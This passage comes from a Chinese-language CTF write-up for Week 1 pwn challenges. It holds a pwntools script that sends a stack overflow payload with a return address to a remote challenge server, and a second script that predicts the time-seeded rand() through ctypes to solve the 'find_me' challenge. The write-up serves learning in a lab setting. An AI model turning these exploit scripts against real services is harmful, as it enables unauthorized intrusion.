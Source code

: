 ```
from pwn import *
io = remote('47.97.58.52',40002)
#io = process('./pwn2')
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.recvuntil(b'walk:\n')
io.send(b'-1')
#gdb.attach(io)
#pause()
io.recvuntil(b'walking:')
io.send(b'A'*56 +p64(0x40101a) + p64(0x40126A))
io.interactive()
```

#### ***[Week 1] 4. find_me\***

main函数如下

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-11-1024x681.png" alt="img" style="zoom:50%;" />

do_bad()函数如下

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-12-1024x687.png)

通过时间为种子生成随机数，打开v4次fake_flag，每次打开都会使新产生的文件描述符增加1，所以我们需要绕过随机数，然后在do_bad()函数中，将正确的文件描述符“找出来”，将flag写入&what，再从&what读出来

这时候需要用到ctypes库了

ctypes 是Python的外部函数库。它提供了C兼容 数据类型，并允许调用 DLL 或共享库中的函数。它可以是 用于将这些库包装在纯Python中.

我们使用语句

```
libc = cdll.LoadLibrary('libc.so.6')#这里的libc.so.6应该可以不是固定的，只要解决问题用哪个都行。
```

这行代码使用 ctypes 库中的 cdll.LoadLibrary 函数加载了 /bin/x86_64-linux-gnu/libc.so.6 路径下的共享库，并将其赋值给了变量 libc。这样，你就可以使用 libc 变量来访问该共享库中的函数。
***也就是说，我们能用python代码调用libc中的函数\***，那么也就是说，***只要我们模仿程序里的代码，就可以生成出同样的随机数，来达到“相同的随机数”的效果，“找到”需要的flag\***

代码如下

```
from pwn import *
from ctypes import *
io = remote('47.97.58.52',40003)
#io = process('./pwn4')
elf = ELF('./pwn4')
context(os = 'linux',arch = 'amd64',log_level = 'debug')
libc = cdll.LoadLibrary('libc.so.6')
libc.srand(libc.time(0))
a = libc.rand()
b = a%100
b = b + 3
io.sendline(b'0')
sleep(0.3)
io.sendline(str(b).encode())
sleep(0.3)
io.sendline(b'1')
sleep(0.3)
io.sendline(b'2')
io.interactive()
```
